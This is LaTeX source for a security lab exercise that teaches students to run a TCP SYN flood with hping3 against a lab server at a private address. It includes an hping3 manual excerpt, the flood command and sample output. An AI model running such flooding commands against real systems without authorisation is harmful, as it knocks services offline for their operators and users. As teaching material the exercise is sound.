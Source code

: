 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}


\chapter{\faInfoCircle\ TCP SYN flooding 30min}
\label{ex:syn-flood}

{\bf Objective:}\\
Start a webserver attack using SYN flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100%
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp
\end{document}
